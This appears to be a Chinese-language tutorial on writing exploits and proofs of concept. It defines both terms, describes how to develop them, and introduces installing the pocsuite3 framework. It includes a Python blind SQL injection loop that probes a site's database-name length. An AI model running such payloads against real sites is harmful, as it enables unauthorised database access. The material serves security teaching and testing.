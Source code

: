 ### **1. EXP编写**

#### (1). 概述

##### **a. POC**

* **Proof of Concept，概念验证，可以理解为：验证漏洞是否存在的程序**

##### **b. EXP**

* 中文直译为`漏洞利用`，即**通过EXP能够实现漏洞的利用价值**

#### (2). 编写思路

##### **a. 漏洞(POC)方面**

* **了解漏洞详细信息(原理&版本) => 触发原因 => 触发后结果**

##### **b. exp方面**

* **确定使用的编程语言 => 主流场景**

#### (3). 实例

```python
#判断数据库名长度
dbNameLen = 0
while True:
    Payload = "?id=1'+and+length(database())=" + str(dbNameLen) + '--+'
    dbNameLen_url = baseurl + Payload
    if normalUrlLen == len(requests.get(dbNameLen_url).text):
        print('数据库名长度为：'+str(dbNameLen))
        break
    if dbNameLen == 30:
        print('Error')
        break
    dbNameLen += 1
```



### **2. POC编写**

#### **(1). 流程**

* **了解漏洞详细信息(原理&版本) => 触发原因、验证方式 => 搭建环境，复现漏洞 => 确定编写语言 => 结合原理编写**

#### **(2). pocsuite框架**

##### a. 下载与安装

1. pip安装

   ```cmd
   #cmd命令行
   pip3 install -U pocsuite3 --no-cache-dir
   #检验安装效果
   pocsuite-h
   ```
